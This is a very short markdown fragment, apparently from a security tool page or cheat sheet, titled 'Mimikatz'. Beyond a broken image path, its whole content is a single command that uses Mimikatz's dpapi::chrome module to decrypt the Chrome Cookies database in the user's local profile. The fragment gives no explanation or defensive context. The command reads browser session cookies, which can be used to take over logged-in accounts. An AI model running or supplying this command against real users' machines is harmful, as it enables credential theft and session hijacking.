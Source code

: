 # Mimikatz

```
mimikatz # dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies"
```